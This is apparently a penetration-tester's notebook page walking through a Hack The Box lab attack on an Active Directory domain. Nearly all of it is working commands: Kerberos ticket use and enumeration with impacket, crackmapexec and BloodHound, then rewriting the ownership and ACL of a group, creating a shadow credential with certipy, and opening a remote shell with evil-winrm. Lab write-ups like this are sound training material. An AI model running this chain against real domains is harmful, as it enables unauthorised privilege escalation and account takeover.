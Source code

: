 ```yaml
---
description: ACL Abuse and Shadow Credential
---
```


# Kerberos based Enum and Attack Samples

## Preparation

{% code overflow="wrap" %}
```bash
# Get TGT for a user
impacket-getTGT 'absolute.htb/d.klay:Darkmoonsky248girl' -dc-ip $RHOST

# Inject it into memory 
export KRB5CCNAME=./d.klay.ccache 
```
{% endcode %}

## Enumeration

### LDAP

```bash
crackmapexec ldap dc.absolute.htb --use-kcache --users 
```

<figure><img src="../../.gitbook/assets/image (143).png" alt=""><figcaption></figcaption></figure>

### SMB&#x20;

```
crackmapexec smb dc.absolute.htb --use-kcache --shares
```

<figure><img src="../../.gitbook/assets/image (144).png" alt=""><figcaption></figcaption></figure>

### Bloodhound

{% code overflow="wrap" %}
```bash
bloodhound.py -k -u m.lovegod -p AbsoluteLDAP2022! --auth-method kerberos -d absolute.htb -dc dc.absolute.htb -ns 10.129.228.64 --dns-tcp --zip -c All
```
{% endcode %}

## Exploitation - ACL Abuse and Shadow Credential

Get a Bloodhound result below. The m.lovegod owns the Network Audit group, which has `GenericWrite` on the winrm\_user user. &#x20;

To get access to the machine, I’ll first I’ll need to give m.lovegod write access on the Network Audit group. Then I can add m.lovegod to the group. Finally, I can use those permissions to create a shadow credential for the winrm\_user account to access to the machine via evil\_winrm.&#x20;

<figure><img src="../../.gitbook/assets/image (40).png" alt=""><figcaption></figcaption></figure>

Update the ownership of the user to add a 'write permission'.&#x20;

{% code overflow="wrap" %}
```bash
# Domain: absolute.htb
# User: m.lovegod
# Group: Network Audit
# Action: give write permission

python3 /opt/python/impacket/impacket/examples/owneredit.py -k -no-pass absolute.htb/m.lovegod -dc-ip dc.absolute.htb -new-owner m.lovegod -target 'Network Audit' -action write
```
{% endcode %}

Add the full control of Group to the user.&#x20;

{% code overflow="wrap" %}
```bash
# Domain: absolute.htb
# User: m.lovegod
# Group: Network Audit
# Action: give write permission
# Right: FullControl

python3 /opt/python/impacket_porgs/impacket/examples/dacledit.py -k -no-pass absolute.htb/m.lovegod -dc-ip dc.absolute.htb -principal m.lovegod -target "Network Audit" -action write -rights FullControl
```
{% endcode %}

Add the user to the group.&#x20;

{% code overflow="wrap" %}
```bash
# Domain: absolute.htb
# User: m.lovegod
# Group: Network Audit
Kali> kinit m.lovegod
Kali> net rpc group addmem "Network Audit" -U 'm.lovegod' -k -S dc.absolute.htb m.lovegod

# or 
Kali> net rpc group members "Network Audit" -U 'm.lovegod' --use-kerberos=required -S dc.absolute.htb
```
{% endcode %}

Create a Shadow Credential.&#x20;

{% code overflow="wrap" %}
```bash
# Let's find ADCS environment. You will see some ADCS configurations. 
KRB5CCNAME=./d.klay.ccache  certipy find -username m.lovegod@absolute.htb -k -target dc.absolute.htb 

# Let's add the shadow credential to the winrm_user user 
KRB5CCNAME=./d.klay.ccache certipy shadow auto -username m.lovegod@absolute.htb -account winrm_user -k -target dc.absolute.htb 

# Let's connect to the machine
KRB5CCNAME=./winrm_user.ccache evil-winrm -i dc.absolute.htb -r absolute.htb
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (41).png" alt=""><figcaption></figcaption></figure>

